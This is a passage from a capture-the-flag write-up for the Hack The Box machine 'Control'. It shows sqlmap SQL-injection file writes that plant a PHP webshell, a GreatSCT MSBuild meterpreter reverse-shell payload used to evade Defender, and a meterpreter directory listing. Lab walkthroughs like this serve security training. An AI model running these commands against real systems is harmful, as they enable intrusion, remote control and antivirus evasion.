 After messing with some of the sqlmap file-read and file-write options, I was able to write files to the upload directory with:

`sqlmap -u "http://control.htb/view_product.php" --data "productId=69" --file-write cmd.php --file-dest 'c:\inetpub\wwwroot\uploads\bobinette.php'`

So I've just uploaded a webshell to the box and can now run commands through PHP:

![](/assets/images/htb-writeup-control/webshell1.png)

Defender is running on this machine so my earlier attempst at uploading a meterpreter compiled EXE file failed and using the PHP meterpreter proved to be somewhat unstable. However I was able to generate an MSbuild XML `meterpreter/reverse_tcp` payload with GreatSCT and get a stable shell.

First, I'll upload the .xml file I've generated:

`sqlmap -u "http://control.htb/view_product.php" --data "productId=69" --file-write 9001.xml --file-dest 'c:\inetpub\wwwroot\uploads\9001.xml'`

Then compile and execute the payload using my webshell:

`curl 10.10.10.167/uploads/bobinette.php?c='C:\Windows\Microsoft.NET\Framework\v4.0.30319\MSBuild.exe%20c:\inetpub\wwwroot\uploads\9001.xml'`

![](/assets/images/htb-writeup-control/shell1.png)

The flag is probably in Hector's home directory but I don't have access to it.

```
meterpreter > ls /users
Listing: /users
===============

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
40777/rwxrwxrwx   8192  dir   2019-11-05 07:34:03 -0500  Administrator
40777/rwxrwxrwx   0     dir   2018-09-15 03:28:48 -0400  All Users
40555/r-xr-xr-x   8192  dir   2018-09-15 02:09:26 -0400  Default
40777/rwxrwxrwx   0     dir   2018-09-15 03:28:48 -0400  Default User
40777/rwxrwxrwx   8192  dir   2019-11-01 05:09:15 -0400  Hector
40555/r-xr-xr-x   4096  dir   2018-09-15 03:19:00 -0400  Public
100666/rw-rw-rw-  174   fil   2018-09-15 03:16:48 -0400  desktop.ini

meterpreter > ls /users/hector
[-] stdapi_fs_ls: Operation failed: Access is denied.
```

